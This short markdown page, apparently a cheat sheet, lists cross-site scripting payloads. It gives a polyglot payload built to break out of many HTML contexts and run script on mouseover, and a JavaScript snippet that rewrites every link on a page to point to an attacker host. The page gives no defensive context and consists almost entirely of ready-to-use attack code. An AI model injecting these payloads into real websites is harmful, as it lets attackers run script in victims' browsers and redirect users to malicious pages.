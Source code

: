 # XSS

Few famous XSS tool


**Polyglot payload**

```
%0ajavascript:`/*\"/*-->&lt;svg onload='/*</template></noembed></noscript></style></title></textarea></script><html onmouseover="/**/ alert()//'">`
```




**Payload to replace all links**

```
Array.from(document.getElementsByTagName("a")).forEach(function(i) {
  i.href = "https://attacker.com";
});

```
